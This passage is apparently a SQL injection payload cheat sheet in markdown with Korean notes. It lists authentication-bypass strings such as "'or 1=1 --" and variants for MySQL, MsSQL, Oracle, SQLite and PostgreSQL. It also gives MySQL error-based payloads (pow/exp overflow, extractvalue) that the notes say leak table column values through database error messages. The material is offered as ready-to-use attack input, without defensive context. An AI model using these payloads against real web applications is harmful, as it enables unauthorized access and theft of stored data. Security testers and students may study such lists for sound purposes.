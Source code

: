 ```python
print("[+] Result : {}".format(result))
```

---
## Authentication Bypass

<b>*<span style="color:#631F9C">&#62;</span> MySQL*</b>
> <span style="color:#3E386D">→</span> &#39;or 1=1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1<>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1in(1) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1 like 1 &#8211;&#8211;<br>

<b>*<span style="color:#631F9C">&#62;</span> MsSQL*</b>
> <span style="color:#3E386D">→</span> &#39;or 1=1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1<>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1in(1) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1 like 1 &#8211;&#8211;<br>

<b>*<span style="color:#631F9C">&#62;</span> Oracle*</b>
> <span style="color:#3E386D">→</span> &#39;or 1=1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1<>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1 like 1 &#8211;&#8211;<br>

<b>*<span style="color:#631F9C">&#62;</span> SQLite*</b>
> <span style="color:#3E386D">→</span> &#39;or 1=1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1==1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1in(1) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1<>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1 like 1 &#8211;&#8211;-<br>

<b>*<span style="color:#631F9C">&#62;</span> PgSQL*</b>
> <span style="color:#3E386D">→</span> &#39;or 1=1 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1in(1) &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1>0 &#8211;&#8211;<br>
> <span style="color:#3E386D">→</span> &#39;or 1<>0 &#8211;&#8211;<br>

---
## ETC

<b>*<span style="color:#631F9C">&#62;</span> MySQL*</b>

> <span style="color:#3E386D">→</span> pow(~(select &#60;column_name&#62; from (select * from &#60;table_name&#62; limit 0,1) as id), 9999)
> <span style="color:#3E386D">→</span> exp(~(select &#60;column_name&#62; from (select * from &#60;table_name&#62; limit 0,1) as a) * 9999)

<strong>Error Based SQL Injection이 가능하다면 위 페이로드를 이용해서 테이블의 존재하는 모든 칼럼을 에러에 포함시켜 출력시킬 수 있습니다. 대신 테이블 이름과 칼럼 이름을 하나 알고 있어야 합니다.</strong><br>

> <span style="color:#3E386D">→</span> select extractvalue(rand(),concat(0x3a,((select &#60;column_name&#62; from &#60;table_name&#62; limit 0, 1))))
<strong>Error Based SQL Injection이 가능하다면 위 페이로드를 이용해서 컬럼 값을 에러에 포함시켜 출력시킬 수 있습니다.</strong>

---
